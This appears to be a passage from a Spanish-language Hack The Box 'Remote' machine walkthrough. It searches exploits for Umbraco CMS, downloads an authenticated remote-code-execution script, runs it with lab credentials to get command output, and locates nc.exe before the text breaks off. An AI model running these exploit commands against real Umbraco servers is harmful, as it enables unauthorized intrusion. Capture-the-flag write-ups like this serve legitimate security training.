 He buscado con `searchsploit` y he encontrado un `RCE (Remote Code Execution)`

```
# earchsploit umbraco            
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                  | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                           | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                           | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                                                                                              | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                           | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                                                                                                                     | aspx/webapps/50462.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Nos `descargamos` el `exploit`

```
# searchsploit -m aspx/webapps/49488.py
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (723)
Copied to: /home/justice-reaper/Desktop/Remote/exploits/49488.py
```

`Comprobamos` que tenemos un `RCE (Remote Command Execution)`

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c whoami
iis apppool\defaultapppool
```
## Intrusión

`Localizamos` el binario de `nc.exe`

```
# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```
